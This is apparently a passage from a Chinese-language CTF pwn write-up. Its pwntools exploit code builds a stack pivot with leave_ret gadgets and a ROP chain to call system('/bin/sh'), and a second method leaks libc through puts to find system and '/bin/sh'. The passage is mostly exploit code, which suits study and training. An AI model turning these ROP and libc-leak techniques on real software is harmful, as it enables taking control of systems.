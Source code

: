 ```plain
def dbg():
   gdb.attach(proc.pidof(p)[0])
   pause()

rdi = 0x00000000004013d3
leave_ret = 0x00000000004012d6

sla('num:\n','286129175')
ru('gift:')
stack = int(p.recv(14),16) 
li(hex(stack))

main = 0x4012D8
back = 0x40129B
read = 0x4012BA
system = 0x4010D4

pl = p64(rdi) + p64(stack+0x18) + p64(system) + b'/bin/sh\x00' + p64(stack-0x8) + p64(leave_ret) 
dbg()
p.sendline(pl)
```

‍

##### og模板解法：

两次leave\_ret，构造read(0,stack-0x20,0x30)，重复的第二次是为了调整rsp，控制程序流

```plain
pl = b'a'*0x20+p64(stack)+p64(read) #1
p.send(pl)

pl = b'a'*0x20+p64(stack+0x20)+p64(read) #2
p.send(pl)
```

接下来构造一次正常的rop链泄露libc

```plain
pl = p64(stack+0x20+0x10)+p64(rdi)+p64(puts_got)+p64(puts_plt)+p64(main) #3 
p.send(pl)

p.recv()

#libc_base = uu64(r(14))-libc.sym['puts']
libc_base = uu64(r(14))-0xa000000000000 -libc.sym['puts']
li(hex(libc_base))

system= libc_base + libc.sym['system'] 
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

这里选择再跳转到main函数，接收到新的stack地址

```plain
sla('num:\n','286129175')

p.recvuntil('Success!!!\n')
ru('gift:')
stack0 = int(p.recv(14),16)
```

